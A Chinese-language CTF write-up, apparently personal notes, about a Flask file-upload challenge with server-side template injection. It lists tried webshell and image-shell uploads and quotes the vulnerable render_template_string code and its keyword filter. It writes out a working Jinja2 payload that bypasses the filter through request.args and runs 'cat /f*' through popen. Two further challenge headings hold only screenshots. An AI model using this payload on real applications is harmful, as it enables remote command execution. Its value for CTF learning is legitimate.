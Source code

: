 ![image-20250705222611872](D:\ctf wp\201-240.assets\image-20250705222611872.png)

根据提示涉及到文件上传 模板注入以及相关过滤

![image-20250705222818446](D:\ctf wp\201-240.assets\image-20250705222818446.png)

文件上传

1. 上传一句话php：![image-20250705223136403](D:\ctf wp\201-240.assets\image-20250705223136403.png)
2. 上传GIF89a头的图片码：同上
3. 想先上传htaccess也是类型错误

忽然发现有附件，扔给ai审计 ：

提供文件上传功能（限制为txt/log/text/md/jpg/png/gif扩展名）

过滤了*** ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]***

```python
tmp_str = """<!DOCTYPE html>...<pre>{data}</pre>...""".format(name=safe_filename, data=file_data)
return render_template_string(tmp_str)
```

 这里有ssti漏洞 那思路就是上传一个包含ssti注入payload的txt文件

查看网页指纹![image-20250705225435019](D:\ctf wp\201-240.assets\image-20250705225435019.png)

Python3的Flask框架 ，尝试注入 

![image-20250705225856011](D:\ctf wp\201-240.assets\image-20250705225856011.png)

那就直接过滤器绕过过滤![image-20250705234109277](D:\ctf wp\201-240.assets\image-20250705234109277.png)

或者 arg绕过

```php
 {{""[request.args.x1][request.args.x2][0][request.args.x3]()[137][request.args.x4][request.args.x5]['popen']('cat /f*').read()}}
payload： ?x1=__class__&x2=__bases__&x3=__subclasses__&x4=__init__&&x5=__globals__
```

![image-20250705234224338](D:\ctf wp\201-240.assets\image-20250705234224338.png)





## 237.[HNCTF 2022 WEEK2]ez_SSTI

尝试使用ssti注入道具FenJing

![image-20250706150146696](D:\ctf wp\201-240.assets\image-20250706150146696.png)



## 238.[GHCTF 2025]ezzzz_pickle

![image-20250707160305210](D:\ctf wp\201-240.assets\image-20250707160305210.png)
